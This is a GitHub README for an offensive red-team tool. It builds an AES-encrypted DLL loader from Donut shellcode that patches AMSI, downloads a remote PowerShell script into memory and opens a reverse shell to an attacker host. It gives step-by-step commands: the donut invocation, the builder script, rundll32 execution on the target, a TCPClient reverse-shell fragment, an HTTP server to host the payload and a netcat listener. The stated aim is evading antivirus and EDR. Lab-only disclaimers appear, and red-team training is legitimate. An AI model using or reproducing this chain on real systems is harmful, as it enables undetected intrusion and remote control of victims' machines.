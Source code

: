 # 🧬 AES-Encrypted DLL Loader – Donut + PowerShell

## ⚡ Quick Overview
This project builds a DLL which, when executed (e.g., via `rundll32`), decrypts in-memory shellcode previously generated and encrypted with AES. The shellcode is created using [Donut](https://github.com/TheWover/donut) and contains a C# loader that downloads and runs a PowerShell script, ultimately establishing a reverse shell.

> **Warning:**  
> Use this project **only** in controlled lab environments and for educational purposes. Any unauthorized usage in production environments can be illegal and is the sole responsibility of the user.

---

## 🎯 Motivation
Shellcode generated by tools like `msfvenom` often triggers modern antivirus and EDR solutions. Even encoders might not bypass typical behavioral signatures. To improve evasion:

- **Donut** is used instead of `msfvenom` to produce shellcode from a .NET executable.
- The shellcode is **AES-encrypted** via a custom Python script.
- The DLL (`loader.dll`) decrypts and executes the payload in memory, making it harder to detect.

This method is intended for Red Team exercises or advanced pentesting labs (like OSEP). It has been tested with **Windows Defender enabled**.

---

## 🧩 Step 1: Compile the C# Loader
1. Open `Loader.cs`.
2. This loader **patches AMSI** using .NET Reflection, then downloads a remote PowerShell script (`shell.ps1`) and executes it in-memory.
3. Update the hardcoded IP/URL so that it points to the machine hosting `shell.ps1`.

**Note on dependencies:**  
You might need to reference `System.Management.Automation.dll`, for example:
    C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
Also ensure that your PowerShell execution policy allows scripts to run, or use a bypass method.

---

## 🏗️ Step 2: Generate Shellcode with Donut
Use Donut to transform your .NET executable (`Loader.exe`) into raw shellcode:
    
    donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin

**Explanation of flags**:
- `-a 2`: Target architecture (x64).
- `-f 1`: Output format: raw (binary).
- `-b 1`: AMSI/WLDP/ETW bypass level (0 = none, 1 = always, etc.).

> **Tip:** This Donut command is tested on Windows. You can transfer `shellcode.bin` to a Linux machine for encryption.

---

## 🏷️ Step 3: Encrypt and Compile
Run the `AES_DLL_Builder.py` script to embed (or not) the encryption key.

### Option A: Standalone (key embedded)

    python3 AES_DLL_Builder.py --standalone shellcode.bin

It will generate `loader.dll` with the key embedded. Then, on the Windows target:

    rundll32 loader.dll,EPoint

### Option B: Non-Standalone (key supplied at runtime)

    python3 AES_DLL_Builder.py --non-standalone shellcode.bin

On the Windows target:

    rundll32 loader.dll,EPoint "my_key_123"

---

## 🌐 Step 4: Host the PowerShell Script
1. Create a `shell.ps1` file containing reverse shell logic (for example):
    
        $client = New-Object System.Net.Sockets.TCPClient("192.168.1.XX",443)
        # ...
    
2. Serve it via HTTP:
    
        python3 -m http.server 80
    
3. Ensure the IP and port in `shell.ps1` match your listening service.

---

## 📡 Step 5: Start a Netcat Listener
Set up a netcat listener (optionally with `rlwrap` to improve shell handling):
    
    rlwrap -cAr nc -lnvp 443

---

## ⚠️ Legal Disclaimer
This project is provided **exclusively** for educational purposes and authorized penetration testing.  
**Do not** use it without explicit permission, as it may violate local laws and regulations.  
The authors assume no responsibility for any misuse or damage caused by this software.

